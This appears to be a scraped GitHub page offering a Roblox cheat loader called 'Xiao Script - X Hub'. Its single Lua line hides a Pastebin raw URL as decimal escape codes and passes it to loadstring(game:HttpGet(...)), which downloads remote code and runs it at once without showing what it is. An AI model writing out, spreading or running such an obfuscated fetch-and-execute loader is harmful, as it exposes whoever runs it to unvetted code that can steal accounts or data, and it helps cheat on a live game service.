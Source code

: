 # Xiao Script - X Hub
```lua
Xiao = "X脚本"
loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\104\56\110\67\48\102\76\98"))()
```
